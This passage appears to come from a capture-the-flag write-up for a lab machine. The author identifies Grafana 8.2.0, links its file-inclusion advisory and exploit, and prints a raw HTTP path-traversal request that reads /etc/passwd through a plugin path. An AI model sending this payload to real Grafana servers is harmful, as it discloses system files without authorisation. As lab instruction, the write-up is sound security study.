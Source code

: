 Next, I looked at what was on port 3000. 

![Grafana](/assets/images/Ambassador/Grafana.png "Grafana")

It was running [Grafana](https://grafana.com/). And it was telling me that it ran version 8.2.0. I looked for vulnerabilities in this version and found that it was vulnerable to [LFI](https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/). There was also a [script on Exploit-DB](https://www.exploit-db.com/exploits/50581) that showed how to abuse it.

All I needed to do was have the path to a plugin followed by a bunch of `../` and the path to the file I wanted to read. The LFI could not be done in a browser, because the extra `../` would get removed. But it worked well in Burp Repeater.

I tried to read `/etc/password`. 

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2Fetc%2Fpasswd
Upgrade-Insecure-Requests: 1
```
